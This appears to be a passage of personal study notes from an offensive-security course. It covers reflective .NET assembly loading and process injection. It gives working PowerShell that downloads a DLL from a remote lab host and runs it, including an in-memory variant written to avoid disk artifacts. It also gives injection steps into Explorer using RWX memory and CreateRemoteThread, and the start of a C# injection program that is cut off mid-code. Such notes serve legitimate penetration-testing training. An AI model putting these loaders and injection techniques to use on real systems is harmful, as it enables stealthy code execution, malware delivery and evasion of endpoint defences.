 Use the `LoadFile` method from the `System.Reflection.Assembly` namespace to dynamically load our pre-compiled C# assembly into the process. 

```pwsh
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/ReflectiveLoad.dll', 'C:\Users\Offsec\ReflectiveLoad.dll')
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Offsec\ReflectiveLoad.dll")

$class = $assem.GetType("ReflectiveLoad.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

Executing this PowerShell will download the assembly to disk before loading it.

Instead, use:

- The `Load` method, which accepts a Byte array in memory instead of a disk file

- The `DownloadData` method of the `Net.WebClient` class to download the DLL as a byte array.

```pwsh
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/ReflectiveLoad.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ReflectiveLoad.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

`IronPython` combine the power of Python and .NET.

`Trinity` is a framework for implementing this post-exploitation.

Java-based Java Applets and Java `JAR` files can be used to gain client-side code execution.

Java also contains a built-in JavaScript scripting engine called `Nashhorn`.

# Process Injection and Migration

## Process Injection in C#

Use `OpenProcess` to open a handle to the `Explorer` process.

- `PROCESS_ALL_ACCESS` (`0x001F0FFF`) process right gives us complete access to the process.

Use `VirtualAlloc` to allocate memory.

- Specify the size of the desired allocation, the allocation type, and the memory protections `0x1000`, `0x3000` (`MEM_COMMIT` and `MEM_RESERVE`) and `0x40` (`PAGE_EXECUTE_READWRITE`), respectively.

Create a new execution thread inside the remote process with `CreateRemoteThread`.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ProcessInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
```